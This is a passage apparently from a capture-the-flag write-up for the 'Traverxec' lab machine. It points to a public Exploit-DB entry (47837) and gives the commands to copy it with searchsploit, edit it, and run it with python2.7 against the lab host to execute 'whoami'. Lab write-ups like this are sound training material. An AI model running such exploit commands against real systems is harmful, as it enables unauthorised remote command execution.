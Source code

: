 ![ss1](./traverxec/ss1.png)

Exploit 47837 looks interesting:

- https://www.exploit-db.com/exploits/47837

Try it out:

```bash
searchsploit -m 47837
vim 47837.py # remove the lines at the top
python2.7 47837.py 10.10.10.165 80 whoami
```

![user1](./traverxec/user1.png)
